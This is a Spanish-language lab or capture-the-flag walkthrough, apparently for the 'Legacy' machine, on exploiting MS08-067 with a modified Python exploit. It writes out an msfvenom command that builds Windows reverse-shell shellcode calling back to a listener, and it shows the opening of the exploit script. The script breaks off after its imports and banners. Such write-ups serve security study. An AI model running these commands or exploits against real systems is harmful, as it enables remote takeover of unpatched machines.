 [Proyecto de github rayhan0x01 para explotacion del MS08-067](https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms08-067.md)      
##### *Aclaracion: Vamos a usar python2 para el exploit*

Utilizamos ``pip install pycrypto`` por que era la unica libreria que no teniamos

Con [[msfvenom]] vamos a crear el shellcode que vamos a inyectar con el exploit

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -v shellcode -f py -a x86 --platform windows
```

Nos va a dar como output este shellcode que lo vamos a poner en el script cuando lo creemos

![[Legacy14.png]]

En un archivo que llamamos *Exploit.py* pusimos el siguiente contenido (Recordar cambiar el shellcode)

```python
#!/usr/bin/env python
import struct
import time
import sys
from threading import Thread  # Thread is imported incase you would like to modify

try:
    from impacket import smb
    from impacket import uuid
    #from impacket.dcerpc import dcerpc
    from impacket.dcerpc.v5 import transport

except ImportError:
    print('Install the following library to make this script work')
    print('Impacket : https://github.com/CoreSecurity/impacket.git')
    print('PyCrypto : https://pypi.python.org/pypi/pycrypto')
    sys.exit(1)

print ('#######################################################################')
print ('#   MS08-067 Exploit')
print ('#   This is a modified verion of Debasis Mohanty\'s code (https://www.exploit-db.com/exploits/7132/).')
print ('#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi')
print ('#')
print ('#   Mod in 2018 by Andy Acer')
print ('#   - Added support for selecting a target port at the command line.')
print ('#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport')
print ('#   - Changed shellcode handling to allow for variable length shellcode.')
print ('#######################################################################\n')

print ('''
$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .

''')

print('#######################################################################\n')


```